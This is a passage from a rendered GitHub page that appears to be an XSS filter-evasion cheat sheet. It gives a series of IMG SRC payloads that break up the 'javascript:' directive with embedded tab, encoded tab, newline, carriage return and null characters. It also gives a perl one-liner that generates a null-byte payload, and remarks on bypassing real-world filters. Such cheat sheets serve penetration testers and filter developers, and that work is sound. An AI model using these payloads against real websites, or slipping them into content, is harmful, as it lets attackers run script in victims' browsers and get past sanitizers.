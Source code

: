<h2><a id="user-content-embedded-tab" class="anchor" aria-hidden="true" href="#embedded-tab"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded tab</h2>
<p>Used to break up the cross site scripting attack:</p>
<pre><code>&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-encoded-tab" class="anchor" aria-hidden="true" href="#embedded-encoded-tab"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded Encoded tab</h2>
<p>Use this one to break up XSS :</p>
<pre><code>&lt;IMG SRC="jav&amp;#x09;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-newline-to-break-up-xss" class="anchor" aria-hidden="true" href="#embedded-newline-to-break-up-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded newline to break up XSS</h2>
<p>Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:</p>
<pre><code>&lt;IMG SRC="jav&amp;#x0A;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-embedded-carriage-return-to-break-up-xss" class="anchor" aria-hidden="true" href="#embedded-carriage-return-to-break-up-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Embedded carriage return to break up XSS</h2>
<p>(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):</p>
<pre><code>&lt;IMG SRC="jav&amp;#x0D;ascript:alert('XSS');"&gt;
</code></pre>
<h2><a id="user-content-null-breaks-up-javascript-directive" class="anchor" aria-hidden="true" href="#null-breaks-up-javascript-directive"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Null breaks up JavaScript directive</h2>
<p>Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use <code>%00</code> in the URL string or if you want to write your own injection tool you can either use vim (<code>^V^@</code> will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char <code>%00</code> is much more useful and helped me bypass certain real world filters with a variation on this example:</p>
<pre><code>perl -e 'print "&lt;IMG SRC=java\0script:alert(\"XSS\")&gt;";' &gt; out
</code></pre>